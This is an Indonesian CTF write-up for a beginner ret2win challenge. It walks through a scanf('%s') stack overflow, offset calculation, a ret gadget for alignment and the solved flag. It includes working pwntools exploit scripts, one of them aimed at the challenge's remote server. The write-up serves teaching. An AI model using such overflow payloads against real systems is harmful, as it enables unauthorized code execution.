

<!-- #  -->

## Ringkasan

Challenge ini merupakan challenge kategori **Pwn** dengan konsep dasar **ret2win**.  
Program memiliki kerentanan **stack buffer overflow** karena menerima input menggunakan `scanf("%s", ...)` tanpa membatasi panjang input.

Dengan memanfaatkan kerentanan tersebut, kita dapat menimpa **return address** dan mengarahkan alur eksekusi program ke fungsi `secret_flag_printer()` untuk membaca flag.

{: .prompt-info }

## TL;DR

Binary ini tidak memakai stack canary dan tidak memakai PIE, sehingga alamat fungsi `secret_flag_printer()` tetap. Kerentanannya ada di `scanf("%s", v1)` pada buffer 64 byte. Payload final:

```text
"A" * 72 + p64(0x401016) + p64(0x401186)
```

`0x401016` adalah gadget `ret` untuk memperbaiki stack alignment saat exploit dijalankan di remote, sedangkan `0x401186` adalah alamat `secret_flag_printer()`.

## Informasi Challenge

| Field | Value |
| --- | --- |
| Event | KTCG Community x HackPoint Beginner CTF |
| Challenge | Solve Chall Ini Plis |
| Category | Pwn |
| Difficulty | Beginner |
| Author | KTCG Community x HackPoint Beginner CTF |
| Files | [dist.zip](/assets/files/ktcg/dist.zip) |

## Environment dan Proteksi Binary

Sebelum membuat payload, saya cek tipe file dan proteksi binary:

```bash
file vuln
checksec --file=./vuln
```

Output pentingnya:

```text
vuln: ELF 64-bit LSB executable, x86-64, dynamically linked, not stripped

RELRO           STACK CANARY      NX            PIE
Partial RELRO   No canary found   NX enabled    No PIE
```

Kenapa ini penting:

- **No canary** berarti overwrite return address tidak langsung terdeteksi oleh stack protector.
- **No PIE** berarti alamat fungsi di binary tetap, jadi `secret_flag_printer()` bisa dipanggil langsung dengan alamat statis.
- **NX enabled** berarti kita tidak perlu menaruh shellcode di stack. Teknik yang cocok adalah ret2win: lompat ke fungsi yang sudah ada.

{: .prompt-tip }

## Recon

Kita diberikan sebuah file binary bernama `vuln`.

Dari hasil dekompilasi, fungsi `main()` terlihat seperti berikut:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  puts("=== Tantangan ret2win ===");
  vuln();
  puts("Program selesai dengan normal.");
  return 0;
}
```

Program ini cukup sederhana. Fungsi `main()` hanya melakukan setup buffering, mencetak pesan, lalu memanggil fungsi `vuln()`.

Artinya, fokus utama analisis berada pada fungsi `vuln()`.

```c
int vuln()
{
  char v1[64]; // [rsp+0h] [rbp-40h] BYREF

  printf("Masukkan input: ");
  __isoc99_scanf("%s", v1);
  return printf("Kamu memasukkan: %s\n", v1);
}
```

Pada fungsi tersebut terdapat buffer lokal `v1` berukuran **64 byte**. Program kemudian membaca input user menggunakan:

```c
scanf("%s", v1);
```

Masalahnya, format `%s` pada `scanf` tidak membatasi panjang input yang dimasukkan user. Jika input yang diberikan lebih dari 64 byte, maka data akan melewati batas buffer dan menimpa bagian stack setelahnya.

Kerentanan ini disebut **stack buffer overflow**.

Dari disassembly, ukuran buffer juga terlihat jelas:

```asm
00000000004011fe <vuln>:
  4011fe:  push   rbp
  4011ff:  mov    rbp,rsp
  401202:  sub    rsp,0x40
  ...
  40121a:  lea    rax,[rbp-0x40]
  401230:  call   __isoc99_scanf@plt
  ...
  401251:  leave
  401252:  ret
```

`sub rsp,0x40` berarti fungsi menyediakan 0x40 byte, atau 64 byte, untuk buffer lokal. Nilai ini cocok dengan hasil dekompilasi `char v1[64]`.

## Analisis Stack Buffer Overflow

Pada arsitektur x86-64, layout stack frame secara sederhana dapat digambarkan seperti berikut:

```text
Alamat Tinggi
+----------------------+
| Return Address       |
+----------------------+
| Saved RBP            |
+----------------------+
| Buffer Lokal         |
| char buf[64]         |
+----------------------+
Alamat Rendah
```

Ketika fungsi dipanggil, stack menyimpan beberapa informasi penting, salah satunya adalah **return address**. Return address digunakan oleh program untuk mengetahui ke mana eksekusi harus kembali setelah fungsi selesai dijalankan.

Secara sederhana, stack fungsi `vuln()` dapat divisualisasikan seperti ini:

```text
+----------------------+
| Return Address       | <- RIP akan kembali ke alamat ini
+----------------------+
| Saved RBP            |
+----------------------+
| v1[63]               |
| ...                  |
| v1[1]                |
| v1[0]                |
+----------------------+
```

Jika kita mengirim input lebih dari 64 byte, maka input tersebut akan keluar dari batas buffer dan mulai menimpa data setelahnya.

Contoh input:

```text
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
BBBBBBBB
CCCCCCCC
```

Maka struktur stack dapat berubah menjadi:

```text
+----------------------+
| CCCCCCCC             | <- Return Address tertimpa
+----------------------+
| BBBBBBBB             | <- Saved RBP tertimpa
+----------------------+
| AAAAAAAAAAAAAAAA...  | <- Buffer
+----------------------+
```

Jika **return address** berhasil kita timpa, maka saat fungsi selesai dan menjalankan instruksi `ret`, program akan melompat ke alamat yang kita masukkan.

Inilah inti dari teknik **ret2win**.

## Menentukan Offset

Dari hasil dekompilasi, buffer `v1` memiliki ukuran 64 byte:

```c
char v1[64];
```

Pada arsitektur x86-64, `Saved RBP` berukuran 8 byte. Maka offset menuju return address adalah:

```text
offset = ukuran buffer + ukuran saved RBP
offset = 64 + 8
offset = 72
```

Tabel offset-nya:

| Offset  | Isi                  |
| ------- | -------------------- |
| 0 - 63  | Buffer               |
| 64 - 71 | Saved RBP            |
| 72 - 79 | Return Address / RIP |

Jadi, struktur payload yang dibutuhkan adalah:

```text
[ padding 72 byte ][ alamat tujuan ]
```

Dengan kata lain, kita perlu mengirim **72 byte padding** terlebih dahulu sebelum menuliskan alamat fungsi yang ingin dieksekusi.

## Mencari Fungsi Target

Selain fungsi `vuln()`, terdapat juga fungsi `secret_flag_printer()`.

```c
int secret_flag_printer()
{
  char s[72]; // [rsp+0h] [rbp-50h] BYREF
  FILE *stream; // [rsp+48h] [rbp-8h]

  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts("Error: flag.txt tidak ditemukan di server!");
    exit(0);
  }
  fgets(s, 64, stream);
  return printf("Eksploitasi Berhasil! Ini flag kamu: %s\n", s);
}
```

Fungsi ini membuka file `flag.txt`, membaca isinya, lalu mencetak flag.

Karena fungsi tersebut tidak dipanggil langsung oleh program, kita perlu memanfaatkan buffer overflow untuk mengubah return address agar program melompat ke `secret_flag_printer()`.

Untuk mencari alamat fungsi tersebut, kita dapat menggunakan `pwndbg`.

```bash
pwndbg> i fun
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  printf@plt
0x0000000000401050  fgets@plt
0x0000000000401060  setvbuf@plt
0x0000000000401070  fopen@plt
0x0000000000401080  __isoc99_scanf@plt
0x0000000000401090  exit@plt
0x00000000004010a0  _start
0x00000000004010d0  _dl_relocate_static_pie
0x00000000004010e0  deregister_tm_clones
0x0000000000401110  register_tm_clones
0x0000000000401150  __do_global_dtors_aux
0x0000000000401180  frame_dummy
0x0000000000401186  secret_flag_printer
0x00000000004011fe  vuln
0x0000000000401253  main
0x00000000004012c4  _fini
```

Dari output tersebut, alamat fungsi `secret_flag_printer()` adalah:

```text
0x401186
```

## Exploit Lokal

Exploit awal dapat dibuat dengan mengirim 72 byte padding, lalu alamat fungsi `secret_flag_printer()`.

```python
from pwn import *

context.binary = elf = ELF("./vuln")
context.log_level = "debug"

p = process("./vuln")

offset = 72
win = 0x401186

payload  = b"A" * offset
payload += p64(win)

p.sendline(payload)

p.interactive()
```

Payload tersebut memiliki struktur:

```text
[ A * 72 ][ secret_flag_printer ]
```

Saat fungsi `vuln()` selesai, instruksi `ret` akan mengambil alamat yang kita letakkan setelah padding, yaitu alamat `secret_flag_printer()`.

Dengan begitu, program akan melompat ke fungsi tersebut dan mencetak flag.

## Masalah Saat Remote

Exploit lokal berhasil dijalankan, tetapi ketika dicoba pada remote server, exploit mengalami crash.

Penyebab yang paling masuk akal adalah masalah **stack alignment** pada arsitektur x86-64. Pada ABI x86-64, beberapa pemanggilan fungsi mengharapkan stack tetap 16-byte aligned. Jika alignment tidak sesuai, fungsi library tertentu dapat crash, biasanya saat menjalankan instruksi seperti `movaps` yang membutuhkan alignment.

Contoh gejala yang biasanya muncul di GDB/pwndbg untuk kasus alignment:

```text
Program received signal SIGSEGV, Segmentation fault.
=> movaps xmmword ptr [rsp], xmm0
```

Pada challenge ini, exploit lokal tanpa gadget tambahan sudah cukup untuk membuktikan kontrol RIP. Namun untuk remote, menambahkan satu gadget `ret` sebelum masuk ke `secret_flag_printer()` membuat stack bergeser 8 byte dan kembali aligned.

Solusi umum untuk masalah ini adalah menambahkan satu gadget `ret` sebelum memanggil fungsi target.

Struktur payload berubah menjadi:

```text
[ padding 72 byte ][ ret ][ secret_flag_printer ]
```

Gadget `ret` digunakan untuk menggeser stack sebesar 8 byte agar alignment menjadi sesuai sebelum masuk ke fungsi target.

## Mencari Gadget `ret`

Untuk mencari gadget `ret`, kita dapat menggunakan `ROPgadget`.

```bash
ROPgadget --binary ./vuln | grep ret
```

Output:

```bash
0x00000000004010fb : add bh, bh ; loopne 0x401165 ; nop ; ret
0x00000000004010c8 : add byte ptr [rax], al ; add byte ptr [rax], al ; nop dword ptr [rax] ; ret
0x00000000004012bc : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x000000000040116a : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x00000000004010ca : add byte ptr [rax], al ; nop dword ptr [rax] ; ret
0x00000000004012be : add byte ptr [rax], al ; pop rbp ; ret
0x000000000040116b : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000401169 : add byte ptr cs:[rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x00000000004010fa : add dil, dil ; loopne 0x401165 ; nop ; ret
0x000000000040116c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401167 : add eax, 0x2efb ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401013 : add esp, 8 ; ret
0x0000000000401012 : add rsp, 8 ; ret
0x00000000004011fc : leave ; ret
0x00000000004010fd : loopne 0x401165 ; nop ; ret
0x0000000000401166 : mov byte ptr [rip + 0x2efb], 1 ; pop rbp ; ret
0x00000000004012bb : mov eax, 0 ; pop rbp ; ret
0x00000000004011fb : nop ; leave ; ret
0x00000000004010ff : nop ; ret
0x00000000004010cc : nop dword ptr [rax] ; ret
0x000000000040116d : pop rbp ; ret
0x0000000000401016 : ret
0x0000000000401042 : ret 0x2f
0x0000000000401022 : retf 0x2f
0x000000000040100d : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x0000000000401168 : sti ; add byte ptr cs:[rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x00000000004012c5 : sub esp, 8 ; add rsp, 8 ; ret
0x00000000004012c4 : sub rsp, 8 ; add rsp, 8 ; ret
```

Dari hasil tersebut, kita dapat menggunakan gadget `ret` berikut:

```text
0x401016
```

## Exploit Final

Exploit final menggunakan tambahan gadget `ret` sebelum alamat fungsi `secret_flag_printer()`.

```python
from pwn import *

context.binary = elf = ELF("./vuln")
context.log_level = "debug"

# p = process("./vuln")
p = remote("20.229.160.60", 2268)

offset = 72

ret = 0x401016
win = 0x401186

payload  = b"A" * offset
payload += p64(ret)
payload += p64(win)

p.sendline(payload)

p.interactive()
```

Struktur payload final:

```text
[ A * 72 ][ ret ][ secret_flag_printer ]
```

Penjelasan payload:

| Bagian     | Ukuran  | Fungsi                                |
| ---------- | ------- | ------------------------------------- |
| `A * 72`   | 72 byte | Mengisi buffer dan menimpa Saved RBP  |
| `p64(ret)` | 8 byte  | Gadget `ret` untuk stack alignment    |
| `p64(win)` | 8 byte  | Alamat fungsi `secret_flag_printer()` |

Ketika payload dikirim, program akan:

1. Mengisi buffer dengan 64 byte pertama.
2. Menimpa `Saved RBP` dengan 8 byte berikutnya.
3. Menimpa `Return Address` dengan alamat gadget `ret`.
4. Menjalankan gadget `ret`.
5. Melompat ke fungsi `secret_flag_printer()`.
6. Membaca dan mencetak isi `flag.txt`.

## Alur Penyelesaian



## Flag

```text
KTCG{w3lc0m3_t0_b1n4ry_3xpl01t}
```

## Lessons Learned

* `scanf("%s", buffer)` berbahaya jika tidak diberi batas panjang input.
* Stack buffer overflow dapat digunakan untuk menimpa return address.
* Offset menuju RIP pada kasus ini adalah `64 + 8 = 72`.
* Teknik **ret2win** digunakan untuk mengarahkan eksekusi ke fungsi yang sudah ada di binary.
* Pada x86-64, stack alignment dapat menyebabkan exploit lokal berhasil tetapi gagal di remote.
* Menambahkan gadget `ret` sebelum fungsi target dapat membantu memperbaiki stack alignment.
